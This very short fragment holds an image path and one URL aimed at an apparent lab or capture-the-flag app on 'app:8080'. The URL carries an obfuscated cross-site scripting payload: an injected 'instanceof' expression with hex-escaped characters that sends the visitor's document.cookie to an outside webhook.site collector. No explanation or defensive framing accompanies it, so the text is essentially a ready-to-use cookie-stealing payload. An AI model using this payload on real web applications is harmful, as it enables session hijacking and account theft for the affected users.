 http://app:8080/?digit=2+instanceof+[location+=+%27javascript\x3alocation\x3D\x27\x2F\x2Fwebhook\x2Esite\x2F79fab17f\x2D1c1b\x2D440c\x2D8d24\x2D2e3a7e995ee5\x2F\x3Fx\x3D\x27\x2Bdocument\x2Ecookie%27]